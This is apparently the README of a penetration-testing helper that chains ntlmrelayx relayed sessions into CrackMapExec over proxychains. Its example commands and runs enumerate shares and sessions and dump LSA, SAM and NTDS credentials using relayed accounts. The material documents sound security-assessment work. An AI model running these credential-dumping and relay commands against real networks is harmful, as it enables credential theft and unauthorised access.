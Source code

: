 # ntlmrelayx2proxychains

## Introduction
[ntlmrelayx2proxychains](https://github.com/He-No/ntlmrelayx2proxychains) aims to connect the tool of the [SecureAuthCorps'](https://github.com/SecureAuthCorp) [impacket](https://github.com/SecureAuthCorp/impacket) suite, ntlmrelayx.py (hereafter referred to as "ntlmrelayx"), along with @[byt3bl33d3r](https://github.com/byt3bl33d3r)'s tool, [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) (hereafter referred to as "CME"), over [proxychains](https://github.com/haad/proxychains), developped by [haad](https://github.com/haad).

Currently, when having active relays via ntlmrelayx.py, you need to manually provide user, domain, and ip address in CME over proxychains. The idea behind this tool is to automate this process. 

So have you ever felt too lazy to **explore all shares, loggedin users, sessions, disks, and/or password policy** manually after using ntlmrelayx **or** felt too lazy to **dump the lsa, sam, and/or ntds** on all systems where you found a local administrator? If so, you'll for sure enjoy [ntlmrelayx2proxychains](https://github.com/He-No/ntlmrelayx2proxychains)! :) 

##  Help!

  This tools' help-page can be consulted via CLI using the `-h` or the `--help`parameter.

    $python3 ntlmrelay2proxychains.py --help
        Usage:
                $python3 ntlmrelay2proxychains.py --action {shares|lsa|sam|...} [--exclude] [--adminonly] [--help]
        
        
        Required argument:
                -a, --action            possible actions {shares|lsa|sam|ntds|sessions|disks|loggedon-users|pass-pol|???}
        
        
        Optional arguments:
                -h, --help              shows this help message and exits
                -e, --exclude           exludes ips listed in the file checked_ips.txt
                -A, --adminonly         only executes the command if the user is local admin on the IP
                -o, --outfile           saves output to file provided
                                        (example: python3 ntlmrelayx2proxychains.py -a lsa -o outfile.txt)

        
        Credits:
                This tool was made by @BugZ_GENK
        
        
        Disclaimer:
                Use with care, on your own risk!
                (and other legal blabla indicating you are NOT using this tool on my responsibility/accountability :))

## Requirements
This tool requires you to have **proxychains configured, Python3 and CME installed, and ntlmrelayx running using socks mode**.

## Required argument
As can be read above, the `-a` or `--action` parameter is **required**. Using this parameter you specify what comes at the end of your command in CME. 

**Example:**
When using ntlmrelayx2proxychains in the following way 

    $ python3 ntlmrelayx2proxychains -a shares
    
   The following command is executed in the background:

    $ proxychains crackmapexec smb -u "victim" -p "" -d "contoso" 10.10.10.10 --shares

## Optional arguments
### Exclude IPs
Starting of with the explanation of the parameter `--exclude` (or the short version `-e`).

This parameter expects no further input via CLI, but checks the file `checked_ips.txt` (created on the first run of this tool). In this file you can specify IPs you want `ntlmrelayx2proxychains.py` to skip.

This can be useful when, ***e.g.*** , exploring shares. During your security assessment, you find a share where you have full read/write access. You fully crawl through this share, but can't find anything interesting. At this point, you are given the option to exclude this endpoint so it does not keep showing up over an over again, while you have already thoroughly investigated these shares. 

**Example:**

Example of `checked_ips.txt`:

    $cat checked_ips.txt
    10.10.10.10
    127.0.0.10
    192.168.0.10

The following output will be generated by `ntlmrelayx2proxychains.py`:

     $python3 ntlmrelay2proxychains.py -a shares -e
    ===========> Configuration Overview <===========
    Action set to: shares
    Showing only admins: False
    Actively excluding IPs: True
    -> Excluded IPs: 10.10.10.10, 127.0.0.10, 192.168.0.10
    =========> Hendrik "@BugZ_GENK" Noben <=========
    [SNIP]
Note, `Actively excluding IPs:` is set to `True` and `--> Excluded IPs: [SNIP]` sums up all IPs that are excluded.

### Adminonly
The next built-in parameter ntlmrelayx2proxychains supports is the parameter `--adminonly` (or the short version `-A`).

This parameter expects no further input at all. It just checks the ntlmrelayx API where it found relays for users that are local administrator on that particular endpoint.

This can be useful when, ***e.g.*** , dumping LSA secrets from target systems, as this operation can only be performed by users have local admin rights.

**Example:**

The following output will be generated by `ntlmrelayx2proxychains.py`:

     $python3 ntlmrelay2proxychains.py -a lsa -A
    ===========> Configuration Overview <===========
    Action set to: lsa
    Showing only admins: True
    Actively excluding IPs: False
    =========> Hendrik "@BugZ_GENK" Noben <=========
    [SNIP]
### Outfile
The parameter `--outfile` (or the short version `-o`) requires the user to provide an additional value which will be used as output filename.

Using this parameter, the output command is written to a file (so you don't have to run these commands over and over again). This file is cleaned, compared to the RAW output, so there is no additional output generated by proxychains.

**Example:**

The following output will be generated by `ntlmrelayx2proxychains.py`:

    $ python3 ntlmrelay2proxychains.py -a lsa -o poc.txt
    ===========> Configuration Overview <===========
    Action set to: lsa
    Showing only admins: True
    Actively excluding IPs: False
    =========> Hendrik "@BugZ_GENK" Noben <=========
    [SNIP]

    $ cat .\poc.txt
    [SNIP]
## Example run

   

    $ python3 ntlmrelay2proxychains.py -a shares -o poc.txt
    ===========> Configuration Overview <===========
    Action set to: shares
    Showing only admins: False
    Actively excluding IPs: False
    =========> Hendrik "@BugZ_GENK" Noben <=========
    
    [*] Grepping your current relays......
    [*] Beautifying the json file......
    
    [*] Setting domain......
    [OK] Domain is: DUM
    
    [*] Ready, set, GO!
    proxychains crackmapexec smb -u "SRV-0001$" -p "" -d CONTOSO 10.10.10.5 --shares
    ProxyChains-3.1 (http://proxychains.sf.net)
    [SNIP]
    
    proxychains crackmapexec smb -u "VICTIM" -p "" -d CONTOSO 10.10.10.10 --shares
    ProxyChains-3.1 (http://proxychains.sf.net)
    [SNIP]

    $ cat poc.txt
    [SNIP]

## TODO

- [x] Implement -o {outputfile}, so the output can be saved to a file in a clean way.
- [ ] When using -A, only make one call per IP address (as all users are local admin, they have full rights anyway, so no need to keep querying the endpoint).
- [ ] Ensure on CTRL+C the script terminates
